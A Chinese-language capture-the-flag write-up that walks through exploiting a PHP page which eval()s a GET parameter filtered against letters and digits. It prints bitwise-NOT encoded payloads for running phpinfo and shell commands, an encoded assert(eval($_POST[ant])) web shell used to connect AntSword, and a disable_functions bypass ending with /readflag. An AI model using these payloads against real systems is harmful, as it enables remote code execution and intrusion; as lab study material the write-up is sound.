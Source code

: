 网页直接给出源码，如下：

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

一个RCE，/[A-Za-z0-9]+/过滤了字母和数字。对于无字母数字RCE，有三种方法：异或，自增，取反
最简单的是取反，构造phpinfo

```php
<?php
$cmd = ~'phpinfo';
echo urlencode($cmd);
if(preg_match("/[A-Za-z0-9]+/",$cmd)){
    echo "sorry";
}#一般取反后都不在数字字母范围了，这里检验一下以防万一
#获得取反结果%8F%97%8F%96%91%99%90
```

`?code=$_=(~(%8F%97%8F%96%91%99%90))();`

或者``?code=$_=~(%8F%97%8F%96%91%99%90);$_();``

随便放一起还是分开。
查看phpinfo信息发现是php7.0，用不了assert了，再查看一下禁用的方法
![image-20250809154322722](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250809154322722.png)

几个常见的命令执行函数都被禁用了，于是使用``执行系统命令

这里注意区分代码执行和命令执行，代码执行是eval这种执行php代码，命令执行是执行目标机器（linux）上的系统命令。

``有一个问题是不能回显，解决方案：

- 加一个打印函数
- php短标签，带echo功能
- 反弹一个shell

一个个尝试

**短标签**：目标：?code=?>\<?=\`$_GET[-]\`?>&-=ls

_GET取反后是%A0%B8%BA%AB

因此构造?code=?>\<?=\`${~(%A0%B8%BA%AB)}[%a0]\`?>&%a0=ls

但是发现都无法执行，命令执行函数全都被禁用，猜测反引号``也被禁用。

因此这是绕过disable_functions问题，而我们要先连接上蚁剑。题目本身环境有过滤的，考虑`assert($_POST[cmd])`这种。因为php7这样用不了，有一个变形：

`(assert)(eval($_POST[cmd]))`

php7.0中，assert仍可以当作函数调用
为什么要多一个eval($_POST[cmd])？为了绕过限制数字字母的环境，对你提交的第二个cmd参数没有检查

为什么要assert？因为我取反后要用函数调用方式，eval是构造器用不了。

```php
<?php
error_reporting(0);
$a = 'assert';
$b = '(eval($_POST[ant]))';
echo urlencode(~$a);
echo "<br>";
echo urlencode(~$b);
#%9E%8C%8C%9A%8D%8B
#%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%91%8B%A2%D6%D6
```

连接上蚁剑后发现只有/var可以访问，利用插件绕过disable_functions。

![image-20250809165558434](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250809165558434.png)

发现直接cat /flag无输出，于是输出到/var目录下，但是也无内容。

尝试执行/readflag >> /var/tmp/flag   成功获取flag